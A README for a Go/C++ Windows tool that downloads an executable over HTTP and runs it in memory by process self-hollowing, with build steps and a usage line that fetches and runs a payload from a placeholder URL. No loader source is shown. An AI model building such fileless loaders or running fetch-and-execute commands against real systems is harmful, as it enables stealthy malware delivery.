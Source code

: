 # go http memexec

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk.

## Features

- **Zero Disk I/O**: Downloads executables directly to memory using go net/http and never writes them to disk
- **Process Self-Hollowing**: Replaces the current process with the downloaded payload
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **Simple API**: Single command to download and execute payloads

## How It Works

go http memexec uses a sophisticated process self-hollowing technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Maps the PE file into memory with proper section permissions
3. Resolves imports and fixes relocations
4. Executes the payload by jumping to its entry point
5. The original process is replaced by the payload without writing any files to disk

## Usage

```bash
# Basic usage with default URL
./go-http-memexec

# Specify a custom download URL
./go-http-memexec https://example.com/payload.exe
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution

## Technical Details

The project combines Go for high-level coordination with C++ for low-level Windows API interaction:

- Uses golang's net/http to stream downloads directly to memory
- Implements PE parsing, import resolution, and relocation in native code
- Properly handles TLS callbacks and memory protection
- Updates the PEB to maintain process coherence after hollowing

## Build Instructions

```bash
# Build everything at once if you trust me :)
./build-all.sh

# if you don't, manual build process
# 1. Build the C++ library
cd cpp
gcc -c selfhollow.cpp relocate.cpp -I.
ar rcs librunpe.a selfhollow.o relocate.o

# 2. Build the Go executable
go mod tidy
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- GCC or compatible C++ compiler
- Go 1.16 or later

## Notes
- THIS ONLY WORKS FOR PAYLOADS LESS THAN OR EQUAL TO (leaning towards less than) THE TARGET BINARY SIZE (go-http-memexec is 5.626mb)
- I have only tested this on Windows 10
- I have only tested on statically linked Go and Rust binaries

## License

[License: MIT](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations. 
